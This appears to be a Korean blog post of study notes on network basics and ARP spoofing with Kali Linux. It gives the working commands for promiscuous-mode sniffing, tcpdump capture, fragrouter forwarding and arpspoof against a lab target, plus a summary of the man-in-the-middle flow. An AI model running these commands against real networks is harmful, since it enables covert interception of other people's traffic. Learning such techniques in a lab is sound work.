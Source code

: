 ```yaml
---
title:  "[Linux] Kali를 이용한 arp spoofing"

categories:
  - Linux
tags:
  - [Linux, Kali, Network, sniffing, spoofing] 

toc: true
toc_sticky: true

date: 2023-06-22
last_modified_at: 2023-06-22
---
```


<!-- post 폴더 이름 -> 연관성을 찾지못함 ( 이상하게 바꿔도 정상적으로 작동했기때문 ) -->



## 1. 네트워크
### 1-1. ASCII
- 기본적인 ASCII 문제
- 문제
- 사진넣기

### 1-2. 네트워크
- 사진 넣기 ( A ~ C클라스 사설 IP 주소 외워야함)
- 192.167.1.100/24 이 IP는 범위에 없으니 공인 IP 이다 !


## 2. Kali Sniffing과 spoofing

### 2-1. Sniffing과 spoofing
- sniffing ( 도청 )을 하기위한 세팅
- $ ifconfig eth0 promisc ( promiscuous )
- ifconfig로 eth0에 promisc 추가되어있는지 확인



### 2-2. tcpdump
- 리눅스에서 기본이 되는 가장 강력한 sniffing tool ( 패킷을 가로채는 역할 )
- ex) tcpdump -i eth0 -xX host 192.168.111.111  ( kali의 ip주소를 넣어서 확인 )

### 2-3 APR를 가로채는 spoof 과정
1. $ apt install dsniff
2. $ apt install fragrouter

> 명령어를 입력했을 때 usage가 나오면 [] 대게 사용법을 알려주니 참고하자

3. 터미널을 2개 열어서 첫번째 터미널 (T1)에 <u>Fragrouter B1</u> 입력 (for Normal IP Forwarding)
4. T2에 <u>arpspoof -i eth0 -t 192.168.111.7 192.168.111.1</u> 입력
```
-i (interface)
-t (target)
마지막 ip주소는 G/W의 주소를 작성 !
```
5. 확인
   - T2에서 arpspoof의 결과를 보면 MAC주소가 Kali의 주소로 변경되어있음을 확인할 수 있다
   - Win-client에서  <u>arp -a</u>를 입력하면 G/W의 MAC주소가 Kali의 MAC주소로 변경되어있다

<details>
<summary>arpspoof의 과정 요약</summary>
<div markdown="1">

```
	호스트 A에서 라우터를 거쳐서 인터넷으로 패킷이 가기전에
	공격자가 패킷을 먼저 받은 뒤 라우터에게 패킷을 전달해주려고 합니다.

	그 전에 세팅을 해야하는데
	공격자의 터미널에서 fragrouter B1 이라는 명령어로
	Nomarl IP Forwarding 을 미리해줍니다.

	그리고
	arpspoof -i(interface) eth0 -t(target) 192.168.111.7 192.168.111.1
	명령어를 입력하여 Target IP주소를 가진 호스트가 공격자를 게이트웨이라고 속입니다.


	그러면
	공격자는 A의 패킷정보를 뜯어서 볼 수 있게 패킷이 공격자를 거쳐서 라우터로 가게됩니다.
```
</div>
</details>

